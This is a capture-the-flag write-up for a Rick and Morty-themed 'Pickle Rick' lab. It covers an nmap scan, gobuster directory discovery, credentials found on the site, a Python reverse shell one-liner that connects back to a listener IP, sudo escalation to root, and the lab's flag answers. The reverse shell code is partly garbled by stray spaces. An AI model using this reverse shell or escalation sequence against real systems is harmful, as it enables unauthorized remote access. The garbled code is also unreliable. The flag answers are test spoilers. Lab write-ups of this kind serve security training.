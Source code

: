 ## 🌌 Rick and Morty Adventure
![RickAndMorty](rickandmorty.jpeg)

### Task 1: Pickle Rick! 🥒

Join Rick in this thrilling challenge where you'll navigate a web server to find three secret ingredients. These are essential for Rick to concoct his potion and revert back from his pickle form.


---

### 🕵️‍♂️ Exploration Phase

1. **Initial Clues**: A peek into the web server reveals a note hinting at a username.
   - **Username**: `R1ckRul3s`

2. **Nmap Scan**: Discovering what's open.
   ```bash
   nmap 10.10.239.182
   ```
   - Results show **SSH (22)** and **HTTP (80)** ports welcoming us.

3. **Directory Hunting**: Time to uncover hidden paths.
   ```bash
   gobuster dir -u 10.10.239.182 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,js,html,txt,css
   ```
   - Interesting finds: `/login.php`, `/robots.txt` (containing the password clue `Wubbalubbadubdub`).

---

### 📜 Gathering Ingredients

1. **First Ingredient**: Found in `Sup3rS3cretPickl3Ingred.txt`.
   - **Ingredient**: Mr. Meeseek hair.

   #### 🔧 Automating the Process   
   ```python
   python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket   SOCK_STREAM);s.connect(("10.10.77.245",9999));os.dup2(s.fileno(),0); os.dup2(s.filen   (),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
   ```   
   This command establishes a reverse shell connection back to your machine. Don't   forget to replace `"10.10.77.245"` with your listener's IP address and `9999` with   the port number you're listening on.

2. **Second Ingredient**: A journey through the file system unveils:
   ```bash
   sudo -l
   sudo -u root /bin/bash
   cd rick
   cat "second ingredients"
   ```
   - **Ingredient**: 1 Jerry tear.

3. **Final Ingredient**: The last leap into `/root`.
   ```bash
   cat 3rd.txt
   ```
   - **Ingredient**: Fleeb juice.

---